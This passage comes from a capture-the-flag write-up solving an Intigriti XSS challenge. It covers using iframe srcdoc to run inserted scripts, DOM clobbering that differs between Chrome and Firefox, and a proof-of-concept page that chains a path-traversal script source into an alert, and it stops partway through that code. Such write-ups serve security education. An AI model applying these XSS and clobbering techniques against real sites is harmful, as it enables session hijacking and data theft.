 But unfortunately, we're not quite there yet...

## Level 8: Executing dynamically inserted scripts

Just when I thought I was about to pass the level, I found that my script wouldn't execute no matter what I did. I looked up some [keywords](https://stackoverflow.com/questions/1197575/can-scripts-be-inserted-with-innerhtml) and found out that if you insert a script tag using innerHTML, it won't execute.

I tried searching for solutions using keywords like `innerhtml import script` or `innerhtml script run`, but I couldn't find anything.

Finally, I thought of trying `<iframe srcdoc="...">`. It was a bit of a long shot, but I figured I might as well try it since I had nothing to lose.

As it turns out, it worked. If the content is `<iframe srcdoc="<script src='...'></script>"`, it will load the script directly.

## Final solution

One last thing to note is that before submitting my answer, I found that my answer wouldn't work on Firefox. The reason is this piece of code:

``` html
<a id="users"></a>
<a id="users" name="admin" href="a"></a>
```

In Chrome, `window.users` will be an HTMLCollection, but in Firefox, it will only get one a element, and `window.users.admin` will be undefined.

However, this isn't a big problem. You can solve it by adding another layer of iframe:

``` html
<iframe name="store" srcdoc="
  <iframe srcdoc='<a id=admin href=ftp://a:a@a#></a>' name=users>
">
</iframe>
```

My final answer looks like this:

``` html
<!DOCTYPE html>

<html lang="en">
<head>
  <meta charset="utf-8">
  <title>XSS POC</title>  
</head>

<body>
  <script>
    const htmlUrl = 'https://challenge-0721.intigriti.io/htmledit.php?code='
    const exploitSrc = '/analytics/..%2fhtmledit.php?code=1;%0atop.alert(document.domain);/*'
    const insertPayload=`<iframe srcdoc="<script src=${exploitSrc}><\/script>">`
    const payload = `
      <a id="DEV"></a>
      <iframe name="store" srcdoc="
        <iframe srcdoc='<a id=admin href=ftp://a:a@a#${escape(insertPayload)}></a>' name=users>
      ">
      </iframe>
      <iframe name="iframeConsole" src="https://challenge-0721.intigriti.io/console.php"></iframe>
    `
    var win = window.open(htmlUrl + encodeURIComponent(payload))

    // wait for 3s to let window loaded
    setTimeout(() => {
```